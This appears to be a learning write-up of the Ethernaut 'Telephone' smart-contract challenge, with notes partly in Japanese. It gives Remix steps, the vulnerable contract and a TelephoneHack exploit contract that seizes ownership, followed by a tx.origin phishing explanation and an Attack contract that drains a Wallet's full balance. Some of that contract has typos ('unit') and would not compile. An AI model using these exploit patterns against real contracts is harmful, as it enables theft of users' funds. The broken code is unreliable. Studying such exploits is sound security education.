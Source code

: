 4. Telephone 
Claim ownership of the contract below to complete this level.

//Remix IDEのコツ
prerequsite: Environmentは必ず 【Injected Web3】でやる
compile時にgas代
deploy時にgas代

まず事前に用意しておいた Telephone.sol をcompile 

TelephoneHack.solを書く,compile => deploy of contract address 
contract.address
'0x6A2449B7f82499832F4Ced39a886c75397c77f61'

Contract.owner()でowner addressを確認
await contract.owner()
'0x0b6F6CE4BCfB70525A31454292017F640C10c768'


Deployed Contractからfunction hackContractを呼び出して
自分のウォレットのアドレスを入力
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5'

changeOwnerできているか確認。my wallet addressになっていたらsuccess!
await contract.owner()
'0xF6eA8E869C68362eC2FA1b2159Fe459D6D8f30F5' //success









//Telephone.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

//TelephoneHack.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Telephone.sol";

contract TelephoneHack {
    Telephone telContract;

    constructor(address _address) public {
        telContract = Telephone(_address);
    }

    function hackContract(address _address) public {
        telContract.changeOwner(_address);
    }
}



While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

An example of a possible attack is outlined below.

Use tx.origin to determine whose tokens to transfer, e.g.
function transfer(address _to, uint _value) {
  tokens[tx.origin] -= _value;
  tokens[_to] += _value;
}
Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
function () payable {
  token.transfer(attackerAddress, 10000);
}
In this scenario, tx.origin will be the victims address (while msg.sender will be the malicious contracts address), 
resulting in the funds being transferred from the victim to the attacker.

//PhishingAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

/*Phishing attack using tx.origin */

//Dale -> Wallet.transfer() (tx.origin = Dale) 
//Dale -> Laura's malicious contract -> Wallet.transfer() (tx.origin = Dale)

contract Wallet {
	address public owner;

	constructor() public { //anyone can deploy 
	owner = msg.sender;
	}

	function deposit() public payable ()

	function transfer(address payable _to, unit _amount) public {//specifier amount 
	require(tx.origin == owner, "Now owner"); //dale withdraw money here, sending transaction

	_to.transfer(_amount); //she can suck out or withdraw all the money inside of this contract
	}

	function getBalance() public view returns(unit) {
	return address(this).balance;
	}
  }

contract Attack {
	address payable public owner;
	Wallet wallet;

	constructor(Wallet _wallet) public {
	wallet = Wallet(_wallet); //Don't write" new" prefix. 
	owner = msg.sender; //laura is gonna be owner
	}

	function attack() public {
	wallet.transfer(owner, address(wallet).balance);//entire balance 
	}//Laura can fool dale calling this attaack, call wallet contract address of wallet.balance
}


